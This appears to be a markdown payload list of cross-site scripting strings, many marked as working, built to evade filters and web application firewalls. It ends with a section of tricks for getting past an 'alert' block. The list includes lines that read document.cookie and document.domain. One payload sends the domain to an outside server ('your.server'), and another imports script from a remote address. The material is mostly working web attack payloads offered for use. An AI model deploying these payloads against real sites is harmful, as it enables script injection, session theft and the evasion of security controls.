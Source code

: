 "><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//
">-setTimeout`\u0028alert(1)\u0029`-'
<a"/onclick=(confirm)()>Click Here!
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
<--%253cimg%20onerror=alert(1)%20src=a%253e --!>
<a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'>
javascript:{ alert`0` }
1'"><img/src/onerror=.1|alert``>
<img src=x onError=import('//1152848220/')>
%2sscript%2ualert()%2s/script%2u
<svg on onload=(alert)(document.domain)>
<img ignored=() src=x onerror=prompt(1)>
<svg onx=() onload=(confirm)(1)>
“><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;
<svg on =i onload=alert(domain) (working)
<svg/onload=location/**/='https://your.server/'+document.domain>
<svg onx=() onload=window.alert?.()> (working)
test",prompt%0A/*HelloWorld*/(document.domain) (working)
"onx+%00+onpointerenter%3dalert(domain)+x" (working)
"><svg%20onload=alert%26%230000000040"1")> (working)
%27%09);%0d%0a%09%09[1].find(alert)//
"><img src=1 onmouseleave=print()> 
<svg on onload=(alert)(document.domain)>
<svg/on%20onload=alert(1)> (working) 
<img/src=x onError="`${x}`;alert(`Ex.Mi`);"> 
';a=prompt,a()//  
'-eval("window['pro'%2B'mpt'](8)")-'  
"-eval("window['pro'%2B'mpt'](8)")-"  
"onclick=prompt(8)>"@x.y  
=="onclick=prompt(8)><svg/onload=prompt(8)>"@x.y==


Use this tricks to bypass ``alert`` block by XSS WAF

  

(function(x){this[x+``ert``](1)})``al``
window[``al``+/e/[``ex``+``ec``]``e``+``rt``](2)
document['default'+'View'][``\u0061lert``](3)
this.ownerDocument.defaultView['\u0061lert'](